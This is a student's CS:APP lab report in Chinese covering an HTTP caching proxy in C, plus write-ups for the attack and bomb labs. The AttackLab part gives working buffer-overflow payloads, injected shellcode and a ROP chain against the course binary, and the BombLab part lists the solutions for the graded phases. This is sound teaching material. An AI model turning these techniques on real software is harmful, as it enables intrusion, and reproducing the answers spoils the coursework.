






# CSAPP Lab

- **姓名**：魏剑宇
- **学号**：PB17111586
- **代码地址**：[Github](https://github.com/kaleid-liner/CSAPP)(在DDL之后我会将此仓库make public)，同样可见附的压缩包

[TOC]

## Introduction

CSAPP的实验共有9个，我完成了其中的**4个**，分别是datalab，bomblab，attacklab，proxylab。自己估计了一下难度值，大概是：
$$
proxylab > attacklab > bomblab > datalab
$$
之后，我会按照**难度从大到小**的顺序介绍我做的这些实验（关于每个实验的报告也可在该分目录下的 `README.md` 中找到。

## Statement of Integrity

我承诺所有的实验（包括代码，报告）都是我自己经过思考独立完成。[^1]

[^1]: 报告中由许多命令行和程序的截图。观察命令行可以看到用户名都为 kaleid-liner ，包括 WSL 和 VMWare Ubuntu。同样，我的 Github 用户名也为 kaleid-liner ，访问上面的链接即可知。此一致性可以在一定程度上证明确实是由我完成的。

## Directory Structure

```
csapp
├── attack
│   ├── assets                  // 报告的资源文件
│   │   ├── ...
│   ├── ...
│   ├── generate.sh             // 生成结果的脚本
│   ├── README.md               // 报告
├── bomb
│   ├── answer.txt
│   ├── assets
│   │   ├── ...
│   └── README.md               // 报告
├── datalab-handout
│   ├── assets
│   │   └── datalab.png
│   ├── bits.c                  // 此实验要求完成的源文件
│   ├── ...
│   ├── Makefile                
│   ├── README.md               // 报告
├── proxylab-handout
│   ├── assets
│   │   ├── ...
│   ├── cache.c                 // cache的源文件
│   ├── cache.h
│   ├── csapp.c                 // 原本就有的库源代码文件
│   ├── csapp.h
│   ├── ...
│   ├── driver.sh
│   ├── hashmap.c               // 拷贝过来的hashmap源文件
│   ├── hashmap.h
│   ├── Makefile                // 此程序的Makefile
│   ├── proxy.c                 // proxy的主源文件
│   ├── proxy.h
└── README.md
```

## ProxyLab

### Development Environment

- **OS**: VMWare Ubuntu 18.04
- **Editor**: VSCode
- **Compiler**: gcc (Ubuntu 7.3.0-27ubuntu1~18.04) 7.3.0
- **Debug**: VSCode + gdb
- **Version Control**: Git

### Code Structure

- `csapp.h`, `csapp.c`：由实验提供的一套 Robust io 库，和网络常用操作的 API

- `proxy.h`, `proxy.c`：http proxy 的核心代码

- `cache.h`, `cache.c`：定义了 cache 的数据结构及提供的一套接口，这个用于我的 proxy 的 cache 部分

- `hashmap.h`, `hashmap.c`：定义了 hashmap 数据结构及接口。这个用于 cache 的数据存储。

  关于 hashmap：在实现 proxy 的 caching 时，我考虑了 cache 的存储结构。cache 实际是一系列的 K-V 值，若使用线性表效率很低，最好的是使用查找树或哈希表实现。而由于此次实验的语言限制在C，C的标准库中未提供 hashmap 或类似的利于查找的数据结构。

  考虑到本次实验的重点不在 hashmap 的实现，故我使用了由 [petewarden](https://github.com/petewarden/c_hashmap) 编写的 hashmap 数据结构。除此以外此次实验没有用第三方库。

### Basic knowledge

完成本次实验，涉及到一些网络编程、并行编程上的知识。在阅读了实验指导和一些资料后我对这些知识有了一定了解。

#### TCP

关于 TCP 的三次握手这里不再赘述。在代码中，建立在有 `csapp.c` 提供的一些 high-level 操作上，为了完成服务器的功能，需要以下结构的代码。

为了使 proxy 在某个端口开始侦听 TCP 连接，需要定义 socket，并 bind 到特定 port，接受来自任意 address 的链接，这些都可以通过 `open_listenfd` 做到：

```c
int listenfd = open_listenfd(port);
```

为了使 proxy 接受链接，获得 connect file descriptor：

```c
connfd = accept(listenfd, (struct sockaddr *)&client_addr, &sock_len);
```

为了使 proxy 主动链接到远程服务器，需要通过提供的域名（或 ip address） 和 port ，查找到远程服务器的地址，并链接过去。这些都可以通过 `open_clientfd`做到：

```c
int clientfd = open_clientfd(host, port);
```

#### HTTP request format

虽然现在 HTTP/2 已经十分普及了，甚至 HTTP/3 都在计划中了，至少已经是 HTTP/1.1，但此次实验只要求我们使用 HTTP/1.0. 这个只用看一下 RFC 1945 即可。下面大致描述一下：

HTTP 报文的开头一般是由 Method | URI | Version 组成。由于此次实验只要求支持 GET 操作，所以一般是这样：

```http
GET /uri/to/request/content HTTP/1.0
```

注意，传给服务器的 URI 是相对的（如 /)，传给 proxy 的 URI 是绝对的（如http://wlt.ustc.edu.cn），因为服务器知道自己的地址，但 proxy 不知道客户端想要访问哪个主机。

之后是一些 K-V 值，如：

```http
Host: ustc.edu.cn
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
```

所有换行都由 `\r\n` 组成。

最后一个空行标志请求的结束。

关于 Connection 和 Proxy-Connection 的区别，可见这篇[博客](https://imququ.com/post/the-proxy-connection-header-in-http-request.html)。

#### HTTP Response header

Response 的格式与上面的大致类似。不过没有 Method 等。同时，报头中需要有`Content-length`，标志接下来要传输的数据的长度。

#### Concurrent programming

显然 proxy 应该有能力处理并发的请求。关于并行模型，暂不考虑 OpenMP、MPI 等 high-level 并行库。

使用 linux 的进程来实现并行是一种选择，这样做十分简单，只需要 `fork` 一下即可。在我附的代码中（使用 Git 进行版本控制），在 `1b2237e` 版本中，有一个简单的通过进程实现的并发代理服务器。但此种方式下，进程间通信难以实现，在之后实现 cache 使就不太现实，故最后使用 posix thread 的并行模型。

注意并行变成下需要考虑进程间的同步和互斥操作。服务器不需要考虑同步，但在操作 cache 时需要使用互斥操作。这个可以通过 linux 的信号量实现。

通过 `sem_t` 声明一个 `mutex`，将其 value 设为 1，每次操作前，使用 `P` 操作等待资源并申请占用，用完后使用`V` 操作释放资源，这样即可完成线程的互斥操作。

### Implementations

以下详细讲讲我 proxy 代码的实现。（完整代码请访问我的 Github 仓库或看我附的压缩包中的代码）

#### Argument

proxy 接受一个参数，即端口。参数处理的代码如下：

```c
if (argc != 2) {
    fprintf(stderr, "usage: %s <port>\n", argv[0]);
    exit(0);
}

int port = strtol(argv[1], NULL, 10);
if (port < 1024 || port > 49151) {
    fprintf(stderr, "Illegal port. Please enter a valid integer ranged from 1024 to 49151\n");
    exit(0);
}
```

以上进行了简单地错误处理，排除了一些非法端口。

#### Handle Request

##### Request datastructure

为了表示处理请求后获得的信息，定义一个数据结构进行表示，如下：

```c
typedef struct RequestInfo {
    char host[HOST_NAME_MAX];
    int port;
    char uri[MAX_URL];
    char url[MAX_URL]; //this will work as key of cache
    char method[MAX_METHOD];
    char version[MAX_VERSION];
} RequestInfo_t;
```

`host` 表示域名，`port` 表示端口名，`uri` 表示请求资源的路径，`url` 就是 url，但需要经过特殊处理[^2]使其当作 cache 的 key 值。

[^2]: 这里的特殊处理指将不同但表示意思相同的 url 变成一样的，如 `google.com/` 和 `google.com`，即末尾若有 `/`，将其去掉。

##### data input

为了获取输入，通过提供的 Robust io 库。

```c
rio_readinitb(&rio, connfd);
rio_readlineb(&rio, buf, MAXLINE);
```

如上，使用 buffered input。将 connfd(Connection file descriptor) 绑定到 rio 上，之后使用 `rio_readlineb` 每次读取一行。

##### URL parser: `parse_url`

这个函数的目的是从 url 中，设置 `RequestInfo` 的内容，host, port, uri, url, etc.

```c
int parse_url(char *url, RequestInfo_t *request)
{
    char buf[MAX_URL];
    char host[HOST_NAME_MAX];
    char uri[MAX_URL];
    int port;

    char url_format[64];
    char host_uri_format[64];

    sprintf(url_format, "http://%%%ds", MAX_URL);
    sprintf(host_uri_format, "%%%d[^/]%%%d[^\r\n]", HOST_NAME_MAX, MAX_URL);

    if (sscanf(url, url_format, buf) <= 0) {
        return -1;
    }

    sscanf(buf, host_uri_format, host, uri);

    strncpy(request->uri, uri, MAX_URL - 1);
    request->uri[MAX_URL - 1] = '\0';
    // normalize
    if (request->uri[0] == '\0') {
        request->uri[0] = '/';
        request->uri[1] = '\0';
    }

    char *port_start = strchr(host, ':');
    if (port_start == NULL) {
        port = 80;
    }
    else {
        port = atoi(port_start + 1);
        *port_start = '\0';
    }
    strncpy(request->host, host, HOST_NAME_MAX - 1);
    request->host[HOST_NAME_MAX - 1] = '\0';
    size_t url_len = snprintf(request->url, MAX_URL, "%s%s", request->host, request->uri);
    if (url_len >= MAX_URL) {
        url_len = MAX_URL - 1;
    }
    if (request->url[url_len - 1] == '/') {
        request->url[url_len - 1] = '\0';
    }

    request->port = port;

    return 0;
}
```

以上这个函数主要做的是字符串处理的工作（写上面这个函数的时候我一直就想如果 C 有 Regex 支持该多好）。使用了一些带 'n' 的安全字符串函数来防止栈溢出等漏洞。上面这个函数的细节没有什么值得一提的。值得注意的是，port 的值，若 url 中没有（即通过 `strchr`，在 host 中找 ':'），则设为 80，即 http 协议的默认端口。

##### Forward Request: `forward_request`

需要将 request 通过一些处理后转发给服务器。

```c
void forward_request(int clientfd,
                     rio_t *headers, 
                     const RequestInfo_t *request)
{
    char buf[MAXLINE];
    sprintf(buf, "%s %s %s\r\n", request->method, request->uri, "HTTP/1.0");
    sprintf(buf, "%sHost: %s\r\n", buf, request->host);
    sprintf(buf, "%s%s", buf, user_agent_hdr);
    sprintf(buf, "%sConnection: close\r\n", buf);
    sprintf(buf, "%sProxy-Connection: close\r\n", buf);
    ssize_t buf_size = strlen(buf);
    
    char usrbuf[MAXLINE];
    ssize_t recv_n;
    while ((recv_n = rio_readlineb(headers, usrbuf, MAXLINE)) > 2) { // not \r\n
        if (!strncasecmp(usrbuf, "Host:", strlen("Host:"))
            || !strncasecmp(usrbuf, "User-Agent:", strlen("User-Agent:"))
            || !strncasecmp(usrbuf, "Connection:", strlen("Connection:"))
            || !strncasecmp(usrbuf, "Proxy-Connection:", strlen("Proxy-Connection:"))) {
            continue;
        }
        else {
            // here my proxy just truncate headers larger than 8k
            if (recv_n + buf_size > MAXLINE - 2) break;
            memcpy(buf + buf_size, usrbuf, recv_n);
            buf_size += recv_n;
        }
    }

    buf[buf_size] = '\r';
    buf[buf_size + 1] = '\n';
    rio_writen(clientfd, buf, buf_size + 2);
}
```

首先通过 `sprintf` 连接部分字符串（在一些时候比 `strncat` 要方便一些）。设定了 METHOD URI Version、Host、User-Agent、Connection、Proxy-Connection。之后碰到同样的 header 时就忽略。

`strncasecmp` 是 Posix C 提供的忽略大小写的字符串比较函数。

#### Handle Response: `handle_response`

这个函数比较长，就不全贴在这里了。它做的大概是，从服务器读取 response header，获取 content-length 的值，将 response body 转发给 client。中间涉及到 cache 的一些操作，在后面会详细介绍。

如果未读取到 Content-Length，response 不会进行处理，异常处理代码如下：

```c
if (strncasecmp(usrbuf, "Content-Length:", lens) == 0) {
    if (sscanf(usrbuf + lens, "%ld", &content_length) == 0) {
        fprintf(stderr, "malformed http response\n");
        return;
    }
}
```

其中，如果读取的 content-length 小于预计值，服务器不会直接 down 掉，其异常处理代码如下：

```c
if ((recv_n = rio_readnb(&rio, body_buf, content_length)) < content_length) {
    fprintf(stderr, "warning: potential packet loss due to unknown reason\n");
}
```

#### Concurrency

如前所述，我的代码通过线程实现并发，通过锁实现互斥操作。

代码中，每当收到新的连接时，使用 `pthread_create` 创建新的线程：

```c
while (1) {
    connfd = accept(listenfd, (struct sockaddr *)&client_addr, &sock_len);
    int *pconnfd = malloc(sizeof(int));
    *pconnfd = connfd;
    if (connfd >= 0) {
        pthread_t thread;
        pthread_create(&thread, NULL, thread_handler, pconnfd);
    }
}
```

上面中的 pconnfd 是参数，由于每个线程的都不同，使用 `malloc` 为每个新的线程分配，当然之后要记得 `free`。`thread_handler` 是线程的操作。如下所示：

```c
void *thread_handler(void *pconnfd)
{
    int connfd = *(int *)pconnfd;
    proxy(connfd);
    close(connfd);
    free(pconnfd);
    return NULL;
}
```

其中，proxy 是代理服务器操作的最上层功能函数。之后要关闭端口，释放内存。

##### Semophore

实现 Concurrent Programming 中互斥操作的一个重要设施是 semophore：

```c
static sem_t mutex;
```

在 `main` 函数中进行初始化将其设为 1，使其成为互斥锁：

```c
sem_init(&mutex, 0, 1);
```

之后每次进行操作时，每次操作前后操作后的 PV 函数构成了 "critical section"：

```c
P(&mutex);
// do something to caches
V(&mutex)
```

#### Cache

出于 cache 的总大小（`#define MAX_CACHE_SIZE 1049000`）和效率考虑，我的 cache 使用 hashmap 作为存储结构。

cache 的数据结构定义如下：

```c
typedef struct cache {
    map_t cache_block;
    char *timeline[MAX_OBJECT_SIZE];
    size_t cur;
} cache_t;

typedef struct cache_content {
    char *data;
    size_t content_length;
} cache_content_t;
```

- `cache_block` 以 hashmap 的形式存储 cache。

- `timeline` 以先后顺序记录了 cache 的 key，主要用于当 cache 的总大小达到最大值时，删除最早的 cache，来留时间给新 cache。这是一种非常简单的队列，更好的方式是使用读取优先队列的方式。即读取时间最早的 cache 在最上面。
- `cur` 记录 `timeline` 中的当前位置。
- `cache_content_t` 定义了 cache 中 data 存储的数据结构，由数据和数据的总长度组成。

##### Prevent potential memory leak

cache 是非常容易带来内存泄漏的。特别对于 C，没有 C++ 中的智能指针和其它语言中的内存管理和垃圾回收。cache 中存储的数据必然是在堆中 `malloc` 分配得到的（在，无论是 key 还是 value 在使用完后一定要记得 `free` 掉。

##### Construct cache: `cache_new`

```c
/*
 * return 0 if success
*/
int cache_new(cache_t *cache)
{
    cache->cache_block = hashmap_new();
    cache->cur = 0;
    return (cache->cache_block != NULL);
}
```

操作是初始化 cache 的存储块，将 `cur` 设为0。

##### Insert cache: `insert_cache`

此函数将新的 cache 插入已有的 cache 中。

```c
/*
 * return 0 if success
*/
int insert_cache(cache_t *cache, const char *url,
                 const char *header, size_t header_length,
                 const char *body, size_t body_length)
```

如上，其中 header，body 分别为 response 的报头和数据。url 是请求的链接，将作为 cache 的 key 值。

```c
if (hashmap_length(cache->cache_block) >= MAX_CACHE_SIZE) {
    remove_cache(cache);
}
```

如果 cache 的大小超过了最大值，则从 cache 中移除最早分配的 cache。

```c
char *key = malloc(strlen(url) + 1);
strcpy(key, url);
cache_content_t *value = malloc(sizeof(cache_content_t));
value->content_length = content_length;
value->data = malloc(content_length);
memcpy(value->data, header, header_length);
memcpy(value->data + header_length, body, body_length);
```

为 key 和 value 分配空间，并拷贝进去。不直接使用原来的是因为原来的指针随时可能因为内存的释放变为 dangling pointer。

```c
if (hashmap_put(cache->cache_block, key, value) == MAP_OK) {
    cache->timeline[cache->cur++] = key;
    cache->cur = cache->cur % MAX_CACHE_SIZE;
}
else {
    free(key);
    free(value->data);
    free(value);
    return -1;
}
```

将新的 cache 放入 hashmap 中，并将其存入 timeline 中，如果放入的不成功，就释放空间放弃这个操作，并返回 -1 表示失败。

##### Remove cache: `remove_cache`

```c
/*
 * do nothing if cache is empty
*/
void remove_cache(cache_t *cache)
{
    if (cache == NULL) {
        return;
    }
    char *to_remove = cache->timeline[cache->cur];
    if (to_remove != NULL) {
        void *tmp = NULL;
        if (hashmap_get(cache->cache_block, to_remove, &tmp) == MAP_OK) {
            cache_content_t *value = tmp;
            hashmap_remove(cache->cache_block, to_remove);
            free(value->data);
            free(value);
        }
        free(to_remove);
    }
}
```

`cache->cur` 在 cache 满时指向的即为最早的 cache。从该处获取 key 值，之后 free 掉 key 和 value。

##### Find cache: `find_cache`

```c
/*
 *  data will be set to value if cache is found
 *  return 0 if find cache 
*/
int find_cache(cache_t *cache, char *url, cache_content_t **data)
{
    void *tmp;
    int ret =  hashmap_get(cache->cache_block, url, &tmp);
    *data = tmp;
    return ret;
}
```

逻辑很简单，即从 hashmap 中找到 cache。不过这里要注意 data 的数据类型。这里值得详细描述一下：

`hashmap` 的接口是这样的，`int hashmap_get(map_t in, char* key, any_t *arg)`。其中 `any_t` 的类型是 `void *`，方便指向任意数据类型的指针。故 hashmap 中存储的 data 值实际是指向真实数据的指针。所以 `any_t` 的类型是 `void **`。所以我定义了 `void *tmp`，通过 `hashmap_get` 设定其值，在将它赋给 `*data`。

如果是 C++ 的话，通过引用和模板，代码会更加干净优雅。

### Compilation

输入：

```bash
make
```

即可完成编译。

注意我的 Makefile 在原始版本上加入了我新写的几个文件。

### Conclusion

这里贴一个通关截图：


通过这次实验，熟悉了 C 下的网络编程，和基本并行程序的编写。知道了代理服务器 Cache 的实现方式，熟悉了 HTTP/1.0 协议。

## AttackLab

**实验环境**：IDA Pro on Windows 10、 gdbserver on Ubuntu（虚拟机）

### Code-injection attacks

#### Level 1

这一题相对比较基础，只需要在`getbuf`返回后，能返回到`touch1`即可。`test` 代码如下，

```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

在`getbuf`调用了`gets`，未进行字符数组长度限制等操作，且`buf`数组在栈中，非常易于收到缓冲区溢出攻击。`getbuf`的汇编如下（来自ida pro），

```assembly
sub     rsp, 28h
mov     rdi, rsp        ; dest
call    Gets
mov     eax, 1
add     rsp, 28h
retn
```

从`sub rsp, 28h`可以知道，`buf`的长度是28h，即40 bytes。故输入的字符串长度超过28h即可溢出。

在下一步之前，我们先清楚在栈退出时的布局，如下所示。

| address | content          |
| ------- | ---------------- |
| rsp + x | 参数（if exist） |
| rsp     | 返回地址         |
| rsp - x | local variables  |

（这里由于没有一般的`push ebp; mov ebp esp`的过程，栈和一般的有所不同。

这里，我们需要做的就是在`gets`的时候，输入足够长的字符串，填充掉`[rsp]`处的内容，使返回地址变为`touch1`的地址。能这样做的原因是`ret`指令就是跳转到`[esp]`的位置并`pop`。

知道这个，因为`touch1`的地址是`0x4017C0`，我们需要输入的内容的字符串表示就是`'00 ' * 40 + 'C0 17 40 00 00 00 00 00'`。这样就会跳转到`touch1`的地址了。


#### Level 2

这题需要注入一段代码，让其执行。需要将`edi`设为cookie的值。回忆一下，*System V AMD64 ABI*里，`edi`用来传递第一个参数。这里，我的`cookie.txt`里的内容是`0x59b997fa`。

这题的思路应该是覆盖返回地址，返回到自己注入的代码的地址处，执行`mov edi, 0x59b997fa`，设置`[esp]`的内容为`touch2`的地址，并`ret`。

以下是汇编代码：

```assembly
.intel_syntax noprefix       
.quad 0, 0, 0, 0 ,0          
.quad 0x5561DCA8             
                             
movq rdi, 0x59b997fa         
mov qword ptr [rsp], 0x4017EC
ret                          
```

如上，`.quad 0, 0, 0, 0, 0`是填充40个bytes的0。将返回地址填充为`0x5561DCA8`（这个地址是注入到栈里的代码的开始，通过用`gdb`调试一次就可以得到）。之后执行的代码的作用是很明显的。最后的`ret`将返回到`0x4017EC`，即`touch2`的地址。

为了得到注入`touch2`的字符串，执行以下操作

```shell
gcc -c touch2.s
objcopy touch2.o -O binary touch2
```

gcc 汇编后的代码是 ELF 格式的可执行文件，所以需要通过`objcopy`转化为纯二进制文件，即只含数据和代码的文件。


#### Level 3

和level2大同小异。只不过这回`rdi`的内容需要设置为字符串的地址。字符串的地址可以通过计算得到。需要注意的是字符串放置的位置需要注意，因为之后`hexmatch`里面可能会覆盖部分栈的内容。

`hexmatch`中有如下内容`add rsp, 0FFFFFFFFFFFFFF80h`，说明用到了128byte的栈。多留一点不会造成什么危害，所以我空余了160个bytes的空间。之后在内存中填充字符串`59b997fa`，即`cookie`的值。

```assembly
.intel_syntax noprefix
.quad 0, 0, 0, 0 ,0
.quad 0x5561DCA8

movq rdi, 0x5561DD30
mov qword ptr [rsp], 0x4018FA
ret

.quad 0, 0, 0, 0, 0
.quad 0, 0, 0, 0, 0
.quad 0, 0, 0, 0, 0

.ascii "59b997fa\0"
```

生成输入文件的操作和[level2](#level-2)的内容相同。最后的结果如下，


### Return-Oriented Programming

#### Level 4

需要这种形式的攻击的原因主要是程序做了一些防御手段

- 栈中的内容被设置为不可执行的
- 栈的位置是随机的

所以很难找到植入栈中的代码的地址。在这种情况下，ROP应运而生。这个的原理在[writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf)中已有介绍。

所以重点是在汇编中找到合适的 gadget 进行组合。分析 gadget farm 的内容，可以找到以下有用的汇编。

```assembly
; addval_273
; 48 89 C7 C3
movq rdi, rax
ret

; addval_219
; 58 90 C3
popq rax
nop
ret

; setval_426
; 48 89 C7 90 C3
movq rdi, rax
nop
ret

; getval_481
; 5C 89 C2 90 C3
popq rsp
movl edx, eax
ret

; addval_190
; 48 89 E0 C3
movq rax, rsp
ret
```

我只需要用到`popq rax`和`movq rdi, rax`。所以，我需要做的应该是，

- 覆盖返回地址为`addval_219`中`58 90 C3`处的地址，即`0x4019AB`。
- 通过`popq rax`来将`rax`设为`0x59B997FA`。
- 返回到`addval_273`的地址，即`0x4019A2`。
- 通过`mov rdi, rax`将`rdi`设为cookie的值。

所以最后的地址为的内容为`'00 ' * 40 + 'AB 19 40 00 ' + '00 ' * 4 + 'FA 97 B9 59 ' + '00 ' * 4 'A2 19 40 00 ' + '00 ' * 4 + 'EC 17 40 00 ' + 00 ' * 4 + '\n'`.

结果如下，


### Reproduction

为了复现我的结果，只需要运行：

```shell
./generate.sh
```

可以得到`touch1`、`touch2`、`touch3`、`touch4`，即为这四题的答案。

## BombLab

此实验并不复杂，因为出题者很友好地在二进制文件中附加了调试信息。由于我之前已对*System V AMD64 ABI*的Calling Convention有一定了解，分析中就相对比较轻松。

### Methods

对较简单的phase直接观察汇编就可得出答案。

对稍微复杂的代码，由于我的ida pro安装在windows上，而bomb二进制文件只能在*unix上运行，故使用ida pro + remote debugger进行远程调试。这样省下了不少力气。

**实验环境**：IDA Pro on Windows 10、 gdbserver on Ubuntu（虚拟机）





### Solutions

#### phase1

phase1很简单。对phase1进行考察，发现唯一的检验是将用户的输入与一段硬编码的字符串进行对比。这样，只需要找到这段字符串即可。


**答案是**：`Border relations with Canada have never been better.`

#### phase2

phase2的检验分为几个阶段，它首先通过一个`read_six_numbers`的函数读入6个整数，如果未成功读取到6个，炸弹就爆炸了。

这一步分析的时候需要注意System V AMD64 ABI的Calling Convention。`read_six_numbers`中使用到了函数`sscanf`，且接受了8个参数。参数的传递方式为前6个依次通过RDI, RSI, RDX, RCX, R8, R9传入，其它参数从右向左的推入栈中。


之后，便开始正式的检验。

首先，`[rsp+38h+var_38]`=`[rsp]`，是读入的第一个整数，将之和1比较，不相等就boom。

之后在一个循环中做的是依次比较前一个数和后一个数，后一个数应是前一个数的两倍。

**答案是**：`1 2 4 8 16 32`

#### phase3

phase3观察一下，发现考察的内容是`switch`语句的jump table。它读入两个整数，第一个用于条件分支，得到一个数，放入`eax`中，再将条件分支得到的数与输入的第二个整数比较，若相同则成功。ida pro很容易的识别了这个switch的boilerplate，于是此题就更简单了。




所以这题的答案有多种。

**答案**：`0/1/2/3/4/5/6/7 207/311/707/256/389/206/682/327 `

#### phase4

phase4的大致流程是：

1. 读入两个数
2. 判断是否成功读入了两个数
3. 通过一个递归函数 `func4`判断两个数是否满足一定条件
4. 若`func4`返回0，则通过

事实上，func4的递归只是使这道题目看起来复杂一点，分析的时候发现不需要递归一次就可以让func4返回并通过测试。*此题也需要比较熟悉System V AMD64 ABI的参数传递*。

func4的接口是`func4(edi, esi, edx)`。在调用func4之前，读入了两个值，设为`input_1`、`input_2`，input_2需满足`input_2 == 0`，input_1需满足`input_1 << 0EH`。

初始调用func4使，调用的参数是`func4(input_1, 0, 0EH)`，如下所示。

```assembly
mov     edx, 0Eh
mov     esi, 0
mov     edi, [rsp+18h+var_10]
call    func4
```

以下是func4的主要内容


上面做的计算是（*设func4(a, b, c)*)，$ecx = b + [(c - b) >> ^{shr} 31 + (c - b)] >> ^{sar} 1$。

这里由于初始时b = 0，且c >> 31 = 0，故上式可以化简为$ecx = c \div 2$。之后，通过一个`jle`和`jge`，实际上就是判断a是否等于c。

**综上所述**，最后需要满足的条件就是input_1 / 2 == 14, 得input_1 == 7.

**答案**：`7 0`

#### phase5

这题考察的应该是识别数组访问的模式。唯一的麻烦是代码中有一些不知是编译器生成的还是人为加入的冗余代码。首先读入一段字符串，需要经过的检验如下

1. 字符串长度为6
2. `new_string = [array[ch & 0xF] for ch in old_string]`.
3. `new_string == "flyers"`

而`array`是长这样的，


故只需要凑出这个字符串即可。

**答案**：`ionufg`

#### phase6

phase6相对比较复杂。这一题的主要难点在出现了链表的数据结构。这个链表每个节点的结构为：

```c
struct node {
    long long data;
    struct node *next;
}
```

在内存中的链表共有六个节点。

如下为node1的内容

```assembly
.data:00000000006032D0                 public node1
.data:00000000006032D0 node1           db  4Ch ; L             ; DATA XREF: phase_6:loc_401183↑o
.data:00000000006032D0                                         ; phase_6+B0↑o
.data:00000000006032D0                                         ; linked list
.data:00000000006032D1                 db    1
.data:00000000006032D2                 db    0
.data:00000000006032D3                 db    0
.data:00000000006032D4                 db    1
.data:00000000006032D5                 db    0
.data:00000000006032D6                 db    0
.data:00000000006032D7                 db    0
.data:00000000006032D8                 db 0E0h
.data:00000000006032D9                 db  32h ; 2
.data:00000000006032DA                 db  60h ; `
.data:00000000006032DB                 db    0
.data:00000000006032DC                 db    0
.data:00000000006032DD                 db    0
.data:00000000006032DE                 db    0
.data:00000000006032DF                 db    0
```

再观察代码的结构，发现代码大致可以分为5个部分。

第一部分，代码读入6个整数。再判断这六个数是否小于等于6。值得一提的是，代码中判断是否小于等于6的部分如下：

